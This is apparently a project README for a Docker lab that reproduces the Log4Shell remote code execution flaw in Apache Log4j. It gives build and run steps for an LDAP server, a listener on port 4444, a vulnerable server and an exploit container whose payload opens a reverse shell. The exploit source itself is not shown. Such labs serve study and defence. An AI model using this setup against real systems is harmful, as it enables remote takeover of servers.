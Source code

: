 # CVE-2021-44228 (Apache Log4j Remote Code Execution）

> [all log4j-core versions >=2.0-beta9 and <=2.14.1](https://logging.apache.org/log4j/2.x/security.html)

## Requirements

Java 8 required.

## Usage

Download this project.

```
git clone https://github.com/kimberleyhallifax/log4shell.git
```

Build project.

```
./build.sh

# Runs the following commands
#   cd containers/httpserver/
#   javac Exploit.java
#   cd ../..
#   docker-compose build
```

Run vulnerable jndi LDAP server.

```
cd containers/ldap/
./run.sh

# Runs the following command
#   docker run --rm -it --name log4shell_ldap -p 1389:1389 log4shell_ldap
```

Create listener on port 4444.

```
cd containers/listener
./run.sh

# Runs the following command
#   docker run --rm -it --name log4shell_listener -p 4444:4444 log4shell_listener
```

Run vulnerable server.

```
cd containers/CVE/
./run.sh

# Runs the following command
#   docker run --rm -it --name log4shell_cve -p 9876:9876 log4shell_cve
```

Run payload to execute reverse shell connection to our listener.

```
cd containers/exploit/

# Runs the following command
#   docker run --rm -it --name log4shell_exploit log4shell_exploit
```

You will now be able to execute shell commands from your listener.

## Credits

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
https://github.com/mbechler/marshalsec